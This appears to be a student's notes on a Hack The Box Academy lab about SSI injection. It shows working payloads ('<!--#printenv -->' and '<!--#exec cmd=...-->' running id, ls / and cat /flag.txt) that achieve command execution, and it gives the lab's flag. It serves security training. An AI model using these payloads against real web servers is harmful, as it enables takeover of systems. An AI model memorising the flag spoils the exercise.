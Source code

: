 ```yaml
---
sticker: lucide//server-off
---
```

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`



   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
